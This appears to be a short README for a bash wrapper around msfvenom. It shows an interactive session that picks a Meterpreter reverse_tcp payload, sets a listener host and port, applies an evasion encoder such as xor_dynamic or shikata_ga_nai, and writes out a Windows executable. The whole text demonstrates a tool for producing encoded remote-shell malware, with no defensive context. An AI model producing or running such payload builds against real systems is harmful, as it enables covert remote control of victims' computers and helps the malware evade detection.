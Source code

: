 # msfvenom-quick-

root@FBI:~/文档# bash msfvenom.sh 

1) windows/x64/meterpreter/reverse_tcp
2) windows/x86/meterpreter/reverse_tcp
3) linuu/x64/meterpreter/reverse_tcp
4) linux/x86/meterpreter/reverse_tcp

Select your payload(1-4):1

Input your LHOST: 127.0.0.1

Input your LPORT: 6666

1) x64/xor_dynamic
2) x86/shikata_ga_nai

Select your encoder(default:none): 1

1) c
2) exe
3) elf

Select your formats(default:c): 2

Input your filename: IamLAJI 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor_dynamic
x64/xor_dynamic succeeded with size 560 (iteration=0)
x64/xor_dynamic chosen with final size 560
Payload size: 560 bytes
Final size of exe file: 7168 bytes
